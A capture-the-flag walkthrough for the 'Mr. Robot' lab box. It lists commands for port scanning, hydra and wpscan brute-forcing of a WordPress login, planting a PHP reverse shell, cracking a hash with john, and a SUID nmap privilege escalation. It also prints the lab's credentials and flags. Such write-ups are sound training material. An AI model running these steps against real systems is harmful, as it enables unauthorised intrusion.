






# MR. ROBOT CTF BOX

--------------------------------------------------------------------

**TOOLS USED**: nmap, dirbuster

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**dirbuster**: web content scanner

```
dirb <url_base> <url_base> [<wordlist_file(s)>] [options]
```

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.6.40.234

--------------------------------------------------------------------

## PROCEDURE

### 1. FIND FLAG 1

**TOOLS**: nmap

```
nmap -sC -sV -oN nmap.txt 10.6.40.234
```


**EXPOSED PORT (SERVICE)**:<br>
22 (ssh),<br>
80 (http),<br>
443 (http)

```
gobuster dir -u "http://10.6.40.234" -w /usr/share/dirb/wordlists/common.txt
```

Status code 200 means success


Go to http://10.10.3.80/robots.txt<br>
robots.txt is a common file found on websites that gives a list of files that are off limits for bots (web crawlers)

FILES: key-1-of-3.txt, fsocity.dic

FLAG 1: 073403c8a58a1f80d943455fb30724b9

--------------------------------------------------------------------

### 2. FIND FLAG 2

**TOOLS**: Burp Suite, Hydra, WPScan, netcat, john

Use Burp Suite to intercept a failed login



INTERCEPTED POST REQUEST: log=name&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.176.17%2Fwp-admin%2F&testcookie=1

We can now feed this into hydra to brute force the login

First use fsocity.dic to find username with static password
```
hydra -L fsocity.dic -p test 10.6.40.234 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
"/wp-login.php" is the page<br>
"log=^USER^&pwd=^PWD^" are the parameters<br>
"Invalid username" is what a failure looks like<br>
-t 30 is the# of threads



Invalid User<br>


User Exists<br>


Use that username to brute force password using fsocity.dic again

```
wpscan -U "Elliot" -P fsocity.dic --url 10.6.40.234
```



USER: Elliot
PASSWORD: ER28-0652

Login then go to editor and paste in PHP Reverse Shell code (payload.php) from pentest-monkey. I edited the 404.php page



```
nc -nlvp 4444
```

Then go http://10.10.63.226/wp-content/themes/twentyfifteen/404.php to to trigger shell

User doesn't have access to flag.

Found password hash:<br>
robot:c3fcd3d76192e4007dfb496cca67e13b

```
john hash.txt --wordlist=fsocity.dic --format=Raw-MD5 --fork=8
```

PASSWORD: abcdefghijklmnopqrstuvwxyz


Need to run this in php reverse shell to get interactive shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Get access to robot user

```
su robot
```

FLAG 2: 822c73956184f694993bede3eb39f959

--------------------------------------------------------------------

### 3. FIND FLAG 3

To find binaries for privilege escalation
```
find / -user root -perm /4000 2>/dev/null
```

Target is /usr/local/bin/nmap<br>
Found here https://gtfobins.github.io/gtfobins/nmap/

```
/usr/local/bin/nmap --interactive
!sh
```

FLAG 3: 04787ddef27c3dee1ee161b21670b4e4
